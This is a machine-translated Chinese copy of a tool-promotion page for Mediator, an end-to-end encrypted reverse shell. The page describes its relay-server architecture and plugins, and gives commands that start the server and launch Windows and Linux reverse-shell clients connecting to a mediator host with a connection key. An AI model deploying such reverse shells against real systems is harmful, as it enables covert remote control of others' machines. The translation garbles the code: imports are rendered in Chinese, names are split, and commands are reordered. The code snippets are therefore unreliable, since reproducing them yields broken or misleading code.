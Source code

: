 # Mediator:一个可扩展的、端到端的加密反向外壳，采用了一种新颖的架构方法

> 原文：<https://kalilinuxtutorials.com/mediator/>

[![Mediator : An Extensible, End-To-End Encrypted Reverse Shell With A Novel Approach To Its Architecture](img/9c5b48193f575b326a7e588c7f8c5fea.png "Mediator : An Extensible, End-To-End Encrypted Reverse Shell With A Novel Approach To Its Architecture")](https://1.bp.blogspot.com/-cj1aU4K0Aq0/YK8xjlO7m1I/AAAAAAAAJPg/sf3edEkpuSIsua2jLIN1fq64Yh7x63AEwCLcBGAsYHQ/s728/mediator%2B%25281%2529.png)

Mediator 是一个端到端的加密反向 shell，其中操作者和 shell 连接到一个“mediator”服务器，该服务器桥接这些连接。这消除了运营商/处理者为了监听连接而设置端口转发的需要。Mediator 还允许您创建插件来扩展反向外壳的功能。

您可以将 Mediator 的脚本作为独立的可执行文件运行，也可以将其导入到其他 pentesting 和事件响应工具中。

**架构**

受端到端加密聊天应用程序的启发，Mediator 采用了一种独特的方法来实现反向外壳的客户端/服务器模型。中介使用:

1.  客户端反向外壳
2.  客户处理员/操作员
3.  连接两个连接的服务器

反向 shells 和处理程序使用连接密钥连接到中介服务器。服务器在端口 80 监听处理程序连接，在端口 443 监听反向 shell 连接。当客户端连接到中介时，服务器根据客户端各自的类型和连接密钥对客户端进行排队。当反向 shell 和操作符都使用相同的密钥连接到服务器时，服务器将桥接这两个连接。在那里，两个客户机之间进行密钥交换，反向 shell 和 operator 之间的所有通信都是端到端加密的。这确保了服务器不能窥探它正在传输的流。

**插件**

插件允许您添加额外的命令，这些命令可以在运营商的主机、目标主机或两者上执行代码！有关插件的更多信息，请参考插件目录中的自述文件。

**指令**

**服务器**

客户端脚本可以在 Windows 或 Linux 上运行，但是您需要在 Linux 主机上安装服务器( [mediator.py](https://github.com/doctormay6/mediator/blob/main/mediator.py) )。服务器是纯 Python，所以不需要安装依赖项。您可以使用以下命令运行服务器脚本

**$ python3 mediator.py**

或者您可以用提供的 [Dockerfile](https://github.com/doctormay6/mediator/blob/main/Dockerfile) 构建 Docker 映像，并在容器中运行它(确保发布端口 80 和 443)。

**客户端**

您需要安装在 [requirements.txt](https://github.com/doctormay6/mediator/blob/main/requirements.txt) 中找到的依赖项，客户端才能工作。您可以使用以下命令来完成此操作:

**$ pip 3 install-r requirements . txt**

请参见底部的*提示和提醒*,获得关于分发客户端的帮助，而无需担心依赖性。

处理程序和反向 shell 可以在其他 Python 脚本中使用，也可以直接通过命令行使用。在这两种情况下，客户端都可以接受服务器地址和连接密钥的参数。这些参数的用法如下所述。

**中介服务器地址**

对于 *Python 脚本*的用法，在实例化时需要中介主机的地址:

*处理程序类*

**从处理程序导入处理程序
operator = Handler(mediator host = " example . com ")
operator . run()**

*windows shell 类*

**从 windowsTarget 导入 windows rshell
shell = windows rsshell(mediator host = " example . com ")
shell . run()**

如果直接从 shell 执行客户端脚本*，您可以将地址硬编码在脚本的底部，或者可以将服务器地址指定为带有**或`--server`标志**的参数:*

*handle . py*

**$ python 3 handler . py-s example.com**

*windowsTarget.py*

**【example.com】python windows target . py-s**

**连接密钥**

当两个处理程序或两个反向 shells 使用相同的连接键连接到中介服务器时，只有第一个连接排队等待匹配。在排队的连接超时(30 秒)或与对应的连接匹配之前，尝试使用相同连接密钥进行连接的所有其他相同类型的客户端都将被丢弃。

重要的是要确保每个处理程序都使用唯一的连接密钥，以避免竞争情况导致错误的 shell 被提供给操作符。

仅前缀为“#”的键！ConnectionKey_ "将被服务器接受。默认的连接密钥是“#！ConnectionKey_CHANGE_ME！！!"。

要更改用于 *Python 脚本*用途的连接密钥，可以选择在实例化时提供连接密钥:

*处理程序类*

**从处理程序导入处理程序
operator = Handler(mediator host = " example . com "，connectionKey="#！connection key _ secret _ key ")
operator . run()**

*Linux shell 类*

**从 linuxTarget 导入 Linux rshell
shell = Linux rshell(mediator host = " example . com "，connectionKey="#！connection key _ secret _ key ")
shell . run()**

如果直接从 shell 中执行客户端脚本*，您可以在脚本底部硬编码连接密钥，也可以使用`-c`或`--connection-key`标志将连接密钥指定为参数:*

*handle . py*

**$ python 3 handler . py-s example.com-c ' #！连接密钥 _ 秘密密钥'**

*windowsTarget.py*

**>python windows target . py-s example.com-c ' #！连接密钥 _ 秘密密钥'**

[**Download**](https://github.com/doctormay6/mediator)